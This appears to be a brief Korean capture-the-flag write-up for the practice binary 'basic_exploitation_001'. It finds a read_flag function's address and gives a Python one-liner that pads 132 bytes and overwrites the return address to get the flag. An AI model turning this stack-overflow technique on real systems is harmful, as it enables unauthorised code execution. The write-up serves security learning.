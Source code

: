 # basic_exploitation_001

read_flag를 실행시키면 플래그를 얻을 수 있을 것 같다

`0x80485b9` 에 read_flag가 있으므로

![image](https://github.com/user-attachments/assets/d62b8aeb-4e9b-409b-80d7-7fca37d66efc)


셀주소로 변환하면

```bash
b'\xb9\x85\x04\x08'
```

이게 되고 

버퍼의 크기가 128바이트이므로  

SFP 4바이트까지 132바이트를 채운 뒤 셀코드를 붙여보겟다

```bash
(python -c "import sys;sys.stdout.buffer.write(b'A'*0x80 + b'B'*0x4 + b'\xb9\x85\x04\x08')";cat)| ./basic_exploitation_001
```

![image](https://github.com/user-attachments/assets/5ca5a3d3-219b-4b5b-91c4-1e9d8fded912)


잘 나온다 이제 서버에 보내보면

![image](https://github.com/user-attachments/assets/725a9186-c998-4e7f-9426-8b269e961d3e)


답을 얻을 수 있다
